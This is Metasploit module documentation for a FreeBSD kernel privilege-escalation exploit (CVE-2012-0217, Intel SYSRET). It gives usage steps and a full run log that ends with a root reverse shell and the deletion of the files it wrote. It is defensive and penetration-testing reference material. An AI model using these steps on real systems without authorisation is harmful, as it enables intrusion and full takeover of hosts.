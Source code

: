 ## Description

  This module exploits a vulnerability in the FreeBSD kernel,
  when running on 64-bit Intel processors.

  By design, 64-bit processors following the X86-64 specification will
  trigger a general protection fault (GPF) when executing a SYSRET
  instruction with a non-canonical address in the RCX register.

  However, Intel processors check for a non-canonical address prior to
  dropping privileges, causing a GPF in privileged mode. As a result,
  the current userland RSP stack pointer is restored and executed,
  resulting in privileged code execution.


## Vulnerable Application

  This module has been tested successfully on:

  * FreeBSD 8.3-RELEASE (amd64)
  * FreeBSD 9.0-RELEASE (amd64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/freebsd/local/intel_sysret_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### FreeBSD 9.0-RELEASE

  ```
  msf > use exploit/freebsd/local/intel_sysret_priv_esc 
  msf exploit(freebsd/local/intel_sysret_priv_esc) > set session 1
  session => 1
  msf exploit(freebsd/local/intel_sysret_priv_esc) > set lhost 123.123.123.188
  lhost => 123.123.123.188
  msf exploit(freebsd/local/intel_sysret_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 123.123.123.188:4444 
  [+] FreeBSD version 9.0-RELEASE appears vulnerable
  [+] System architecture amd64 is supported
  [+] hw.model: Intel(R) Core(TM) i9-1337 CPU @ 9.99GHz is vulnerable
  [*] Writing '/tmp/.mTaR4rAPd.c' (4781 bytes) ...
  [*] Max line length is 131073
  [*] Writing 4781 bytes in 1 chunks of 17475 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.LBGkIVh' (218 bytes) ...
  [*] Max line length is 131073
  [*] Writing 218 bytes in 1 chunks of 614 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [*] CVE-2012-0217 Intel sysret exploit -- iZsh (izsh at fail0verflow.com)
  [*] 
  [*] [*] Retrieving host information...
  [*]     [+] CPU: GenuineIntel
  [*]     [+] sysname: FreeBSD
  [*]     [+] release: 9.0-RELEASE
  [*]     [+] version: FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC
  [*]     [+] machine: amd64
  [*] [*] Validating target OS and version...
  [*]     [+] Vulnerable :-)
  [*] [*] Resolving kernel addresses...
  [*]     [+] Resolved Xofl to 0xffffffff80b02e70
  [*]     [+] Resolved Xbnd to 0xffffffff80b02ea0
  [*]     [+] Resolved Xill to 0xffffffff80b02ed0
  [*]     [+] Resolved Xdna to 0xffffffff80b02f00
  [*]     [+] Resolved Xpage to 0xffffffff80b03240
  [*]     [+] Resolved Xfpu to 0xffffffff80b02fc0
  [*]     [+] Resolved Xalign to 0xffffffff80b03080
  [*]     [+] Resolved Xmchk to 0xffffffff80b02f60
  [*]     [+] Resolved Xxmm to 0xffffffff80b02ff0
  [*] [*] Setup...
  [*]     [+] Trigger code...
  [*]     [+] Trampoline code...
  [*] [*] Fire in the hole!
  [*] [*] Got root!
  [+] Success! Executing payload...
  [*] Command shell session 2 opened (123.123.123.188:4444 -> 123.123.123.136:61024) at 2018-12-09 10:40:16 -0500
  [+] Deleted /tmp/.mTaR4rAPd.c
  [+] Deleted /tmp/.mTaR4rAPd
  [+] Deleted /tmp/.LBGkIVh

  id
  uid=0(root) gid=0(wheel) groups=0(wheel)
  uname -a
  FreeBSD freebsd-9-0 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
  ```

